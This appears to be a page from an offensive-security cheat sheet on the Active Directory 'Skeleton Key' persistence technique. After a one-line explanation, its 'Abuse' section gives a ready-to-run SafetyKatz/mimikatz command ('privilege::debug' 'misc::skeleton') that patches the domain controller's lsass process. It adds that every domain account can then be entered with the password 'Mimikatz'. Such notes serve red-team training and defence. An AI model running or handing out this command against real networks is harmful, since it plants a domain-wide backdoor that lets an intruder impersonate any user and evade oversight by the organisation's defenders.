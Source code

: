 # Skeleton Key

## Theory

Is a persistence technique where is possible to patch a Domain Controller (lsass process) so that it allow access as any user with a single password

## Abuse

Use the following mimikatz command to inject a skeleton key

{% code overflow="wrap" %}
```powershell
./SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -ComputerName <$DC>
```
{% endcode %}

Now you can access on every machine of the domain with a valid user and the password "Mimikatz"

